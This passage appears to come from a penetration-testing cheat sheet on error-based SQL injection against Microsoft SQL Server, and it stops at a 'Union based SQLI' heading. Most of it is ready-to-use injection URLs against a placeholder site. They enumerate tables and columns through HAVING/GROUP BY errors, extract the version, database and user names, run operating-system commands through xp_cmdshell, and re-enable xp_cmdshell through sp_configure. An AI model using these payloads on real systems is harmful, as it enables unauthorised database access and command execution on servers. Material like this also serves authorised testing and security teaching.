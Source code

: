 
## Case 2 MSSQL

https://www.exploit-db.com/papers/12975/

- Enumerate column and table name
    
    ```
    http://www.example.com/page.asp?id=1' HAVING 1=1--
    Error message: Column 'news.news_id' is invalid                 < table_name.column
    ```
    
    ```
    http://www.example.com/page.asp?id=1' GROUP BY news.news_id HAVING 1=1--
    Error message: Column 'news.news_author' is invalid           < table_name.column2
    ```
    
    ```
    http://www.example.com/page.asp?id=1' GROUP BY news.news_id,news.news_author HAVING 1=1--
    Error message: Column 'news.news_detail' is invalid             < table_name.column3
    ```
    
    Until no error
    
- Enumerate version, db name, users:
    
    ```
    http://www.example.com/page.asp?id=1+and+1=convert(int,@@version)--
    http://www.example.com/page.asp?id=1+and+1=convert(int,db_name())--
    http://www.example.com/page.asp?id=1+and+1=convert(int,user_name())--       << Is the user running as dbo or sa?
    ```
    
    ```
    xp_cmdshell << if running as database admin
    http://www.example.com/news.asp?id=1; exec master.dbo.xp_cmdshell 'command'
    '; exec master.dbo.xp_cmdshell 'command'
    ```
    

On MSSQL 2005 you may need to reactivate xp_cmdshell first as it’s disabled by default:

```
EXEC sp_configure 'show advanced options', 1;--
RECONFIGURE;--
EXEC sp_configure 'xp_cmdshell', 1;--
RECONFIGURE;--  
```

On MSSQL 2000:

```
EXEC sp_addextendedproc 'xp_anyname', 'xp_log70.dll';--
```

# 2 Union based SQLI

---
